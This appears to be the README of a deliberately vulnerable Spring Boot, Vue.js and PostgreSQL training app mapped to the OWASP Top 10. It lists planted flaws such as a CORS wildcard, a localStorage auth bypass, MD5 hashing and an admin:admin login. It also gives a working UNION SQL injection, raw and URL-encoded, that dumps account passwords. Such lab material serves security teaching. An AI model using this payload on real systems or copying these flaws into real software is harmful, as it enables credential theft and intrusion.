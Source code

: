 # Spring Boot + Vuejs + Postgresql Server mit OWASP Top 10 

## A01:2021 – Fehler in der Zugriffskontrolle

Fehler: 
 - CORS Wildcard
 - Auth ByPass mit Localstorage Item 
 - APIs generell unprotected
 - Url manipulation Orders

## A02:2021 – Cryptographic Failure

Fehler:
  - MD5 Hashing

## A03:2021 – Injection

Detail View Parameter ist angreifbar mit Sql Injection

Normale Query: 

```sql

SELECT * FROM orders JOIN  accounts on orders.userid = accounts.did where orders.did = 1
```

Union Injection: 

```sql
SELECT * FROM orders JOIN  accounts on orders.userid = accounts.did where orders.did = 1
UNION
SELECT 999, 999, '999' const, 999, did, username,email, password  FROM accounts where did = 1;
```

Example (URI encoded): 

http://localhost/detail/1222%20UNION%20SELECT%20999%2C%20999%2C%20'999'%20const%2C%20999%2C%20did%2C%20username%2Cemail%2C%20password%20%20FROM%20accounts%20where%20did%20%3D%201%3B

## A07:2021 – Identification and Authentication Failures
Fehler:
  - Identification mit session Id (kann geändert werden im Localstorage)
  - admin:admin zugang

## A09:2021 – Security Logging and Monitoring Failures 
Fehler:
  - Logging von DB Fehlern direkt an die User 
  - kein Logging von Zugriffen



